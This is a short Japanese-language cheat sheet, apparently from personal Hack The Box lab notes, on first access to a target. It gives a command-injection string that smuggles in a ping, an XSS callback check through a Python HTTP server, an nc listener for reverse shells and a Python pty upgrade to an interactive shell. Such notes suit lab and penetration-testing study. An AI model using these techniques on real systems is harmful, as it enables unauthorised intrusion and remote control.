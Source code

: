 # 初回アクセス

## 疎通確認
HTBのVPNにつないでいればLAN内で完結する

#### ping
* ```tcpdump -i <ネットワークデバイス名> icmpでping```を受ける
* コマンドインジェクション等で```;ping -c 3 <受けのIPアドレス>; ```等を挿入してpingが届くか確認する

#### http
* ```python3 -m http.server -m 80```でhttp通信を受けられる
* XSS等で攻撃対象でスクリプトを動かし```http://<ip>/```へアクセスさせてリクエストが届くか確認する


## Reverse Shell
侵害したシステムから攻撃者に対し接続を行うシェルを用いた通信方法
* nc -lvnp <ポート番号> でリッスンする
* [Reverse Shell](reverse_shell/)記載のような手法で侵入後のシステムからシェルを渡す

### Interactive shell
Tabの補完や矢印キーの使用、エラー出力等の閲覧などのためにInteractive Shellを確立する
```
python3 -c 'import pty; pty.spawn("bash")'
```
Reverse Shellで上記を実行し、Ctrl + Zでバックグラウンドにする
```
stty raw -echo; fg
```
で再度Reverse Shellに入る


